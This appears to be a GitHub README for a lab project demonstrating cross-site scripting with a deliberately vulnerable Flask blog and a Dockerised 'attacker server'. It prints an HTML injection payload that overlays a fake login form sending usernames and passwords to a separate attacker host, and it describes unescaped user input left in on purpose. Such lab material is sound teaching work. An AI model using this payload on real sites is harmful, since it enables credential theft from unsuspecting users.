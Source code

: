 # Cross-Site Scripting (XSS) Demonstration Project

## Overview

This project demonstrates the exploitation of a **Cross-Site Scripting (XSS)** vulnerability in a web application using **Flask**. It includes both a vulnerable victim application and an attacker server to simulate an XSS attack, including credential theft through a fake login page.

## Design view
### Homepage 
![image](https://github.com/user-attachments/assets/f1870b33-8832-4dda-8552-2b40cfa8f122)

### Add post
![image](https://github.com/user-attachments/assets/5283f7f0-e966-4470-b369-1b4efeb98a64)

## Project Structure

``````bash
project-directory/
│
├── attacker_server/
│   ├── attacker_server.py    # Flask app for the attacker server
│   ├── Dockerfile            # Dockerfile for attacker server
│
├── victim_app/
│   ├── app.py                # Flask app for the victim application
│   ├── Dockerfile            # Dockerfile for victim application
│   ├── requirements.txt      # Python dependencies for victim app
│   ├── static/               # Static files (CSS, JS)
│   ├── templates/            # HTML templates
│
├── docker-compose.yml        # Docker Compose file to manage both containers
``````

## Technologies Used
Flask: A lightweight Python web framework for the victim and attacker server applications.
SQLite: A lightweight database used in the victim application.
Docker: Containerizes the victim and attacker applications for easy setup and isolation.
Docker Compose: Used to orchestrate both services.
HTML/CSS: Used for front-end templating and styling.
Setup Instructions
Prerequisites
Docker: Install Docker and Docker Compose on your machine.
Git: Make sure Git is installed to clone the repository.
Steps to Run the Project
Clone the repository:

```bash
git clone https://github.com/naibwedi/Cross-Site-Scripting.git
cd Cross-Site-Scripting
```
Build and run the Docker containers:

```bash
docker-compose up
```
## Access the applications:

Victim Application: Open a browser and go to http://127.0.0.1:5000 to access the vulnerable victim app.
Attacker Server: The attacker server will be running at http://127.0.0.1:5001 where stolen credentials will be logged.
Stop the containers: To stop the running containers, press CTRL+C in the terminal or run:

```bash
docker-compose down
```

## Features
### Victim Application
A basic blog application where users can add posts and comments.
Vulnerability: The application does not escape user input in the blog post and comment sections, making it vulnerable to XSS attacks.

### Attacker Server
A Flask server designed to capture credentials via a fake login form.
Displays and logs stolen credentials from the victim’s browser to simulate credential theft.
Demonstration of XSS Vulnerability
Injecting Malicious Script: An attacker can submit a malicious comment with a script payload that injects a fake login form when viewed by another user.

Example payload:

```html
<div style="background-color: rgba(0, 0, 0, 0.95); position: fixed; top: 0; left: 0; width: 100%; height: 100%; z-index: 9999; text-align: center; color: white; padding-top: 100px;">
    <h1>Please Log In Again</h1>
    <form method="POST" action="http://127.0.0.1:5001/fake-login">
        <input type="text" name="username" placeholder="Enter username">
        <input type="password" name="password" placeholder="Enter password">
        <button type="submit">Log In</button>
    </form>
</div>
```
Redirect to Attacker Server: This payload displays a fake login form, and when the user submits their credentials, they are sent to the attacker’s server (http://127.0.0.1:5001/fake-login).

Credential Theft: The attacker server captures the submitted credentials and logs them to the terminal.

